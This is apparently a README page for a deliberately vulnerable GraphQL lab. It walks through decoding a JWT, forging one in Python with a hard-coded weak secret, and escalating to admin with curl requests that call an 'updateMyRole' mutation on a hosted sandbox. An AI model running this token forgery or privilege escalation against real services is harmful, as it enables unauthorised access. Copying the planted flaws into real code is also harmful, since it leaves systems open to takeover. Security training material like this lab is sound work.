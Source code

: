 ### Decoding the JWT
The token contains three parts separated by dots:
1. **Header**: `{"alg":"HS256","typ":"JWT"}`
2. **Payload**: `{"userId":1,"iat":1640995200,"exp":1641600000}`
3. **Signature**: HMAC-SHA256 hash of header.payload using the secret

### Tools for JWT Manipulation
- [jwt.io](https://jwt.io) - Online JWT debugger
- [PyJWT](https://pyjwt.readthedocs.io/) - Python library
- [jsonwebtoken](https://www.npmjs.com/package/jsonwebtoken) - Node.js library

### Attack Vector
1. **Discover the JWT secret** (it's intentionally weak and exposed)
2. **Create a valid token** for any user ID (1 or 2 work)
3. **Authenticate** using the forged token
4. **Escalate privileges** using `updateMyRole` mutation
5. **Access admin endpoints** to retrieve sensitive data

## 🧪 Testing Examples

### Step 1: Forge a JWT Token
```python
import jwt
import time

# Weak secret (intentionally exposed)
secret = "Gibberish, jibberish, jibber-jabber and gobbledygook"

# Create payload for user ID 1
payload = {
    "userId": 1,
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600  # 1 hour expiry
}

# Generate token
token = jwt.encode(payload, secret, algorithm="HS256")
print(f"Forged JWT: {token}")
```

### Step 2: Test Authentication
```bash
curl -X POST https://4000-ihbuvsewwq89vw5dzkq46-278bf4c2.manus.computer/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_FORGED_TOKEN" \
  -d '{"query": "query { me { id username role } }"}'
```

### Step 3: Escalate Privileges
```bash
curl -X POST https://4000-ihbuvsewwq89vw5dzkq46-278bf4c2.manus.computer/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_FORGED_TOKEN" \
  -d '{"query": "mutation { updateMyRole(newRole: admin) { id username role } }"}'
```
